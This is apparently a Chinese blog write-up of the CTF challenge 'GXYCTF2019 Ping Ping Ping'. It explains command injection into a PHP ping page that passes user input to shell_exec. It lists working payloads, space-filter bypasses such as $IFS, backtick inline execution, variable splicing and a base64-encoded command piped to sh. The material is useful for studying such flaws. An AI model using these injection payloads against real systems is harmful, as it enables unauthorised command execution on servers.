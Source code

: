 ```yaml
---
title: GXYCTF2019 Ping Ping Ping
date: 2020-12-04 20:24:50
categories: ['CTF']
tags: ['Web','BUUCTF_Web','RCE']
---
```


# [GXYCTF2019]Ping Ping Ping

题目链接：https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping

和DMCTF做的那道**pingpingping**类似，同样是使用管道符构造payload，先使用：

```
?ip=127.0.0.1|ls
```

目录下有两个文件：`flag.php`、`index.php`。首先试出来了空格被过滤，使用以下绕过空格：

```
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 
```

在linux下反单引号里面的指令会被执行 **\`ls\`**

```
?ip=|cat$IFS`ls`
```

会输出该目录下所有可以打开的文件，可以查看**index.php**的部分源码有哪些过滤：

```php
/?ip=|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

一些基本的符号、空格、bash、任何形式的flag字眼都被过滤了。接下来就是找访问**flag.php**。在网上看了好多的题解，用了好多方法，但是网页输出都为空，原来以为和其他题目一样使用**readflag**的ELF执行文件访问，但是还没成功。其实执行：

```
?ip=|cat$IFS`ls`
```

这个payload的时候文件都已经输出了，我最后在网页源码找到了，原来是被注释了~~我是傻逼~~。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205110806.png)

**最后记录下学到的姿势和这道题目的其他思路**：

* 管道符：
  * `|`直接执行后面的语句。
  * `||`如果前面语句错误，执行后面的语句。
  * `&`前面和后面命令都要执行，无论前面真假，
  * `&&`如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

* 使用以下绕过空格：

```
$IFS
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
<
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 //需要php环境
```

* 覆盖源码里的`$a`变量（拼接变量）：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

* 使用sh执行脚本：

```
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

* 内联执行：

```
/?ip=|cat$IFS`ls`
```

>附：大佬整理的博客（内含更多姿势）：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)